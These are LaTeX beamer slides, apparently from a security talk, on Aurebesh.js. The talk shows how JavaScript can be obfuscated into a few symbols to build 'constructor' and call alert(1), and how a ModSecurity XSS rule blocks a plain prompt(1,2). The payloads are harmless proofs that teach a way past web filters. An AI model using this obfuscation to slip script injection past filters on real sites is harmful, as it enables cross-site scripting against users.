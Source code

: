 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{Aurebesh.js}
	\begin{vfilleditems}
		\item<2-> Similar to JSFuck \cite{mk/jsfuck}
		\item<3-> Write valid JavaScript statements calling \verb|alert(1)|
		\item<4-> Using the characters \verb|() + [] ! " = {}| and 1 to 9 other characters of choice
		\item<5-> Created by Martin Kleppe \cite{mk/aurebesh}
	\end{vfilleditems}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - How it works part 1}
	\begin{lstlisting}[style=basicStyle]
A = ''              // empty string
B = !A + A          // "true"
C = !B + A          // "false"
D = A + {}          // "[object Object]"
E = B[A++]          // "t" = "true"[0]
F = B[G = A]        // "r" = "true"[1]
H = ++G + A         // 2, 3
I = D[G + H]        // "c"
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - How it works part 2}
	\begin{lstlisting}[style=basicStyle]
B[
  I +=              // "c"
    D[A] +          // "o" = "object"[0]
    (B.C+D)[A] +    // "n" = "undefined"[1]
    C[H] +          // "s" = "false"[3]
    E +             // "t"
    F +             // "r"
    B[G] +          // "u" = "true"[2]
    I +             // "c" = "[object]"[5]
    E +             // "t"
    D[A] +          // "o" = "[object]"[1]
    F               // "r"
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - How it works part 3}
	\begin{lstlisting}[style=basicStyle]
][
  I                 // "constructor"
](
  C[A] +            //  "a"
  C[G] +            //  "l"
  B[H] +            //  "e"
  F +               //  "r"
  E +               //  "t"
  "(A)"             // "(1)"
)()
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - prompt(1,2) blocked}
	\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt(1,2)</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}
\end{frame}
\end{document}
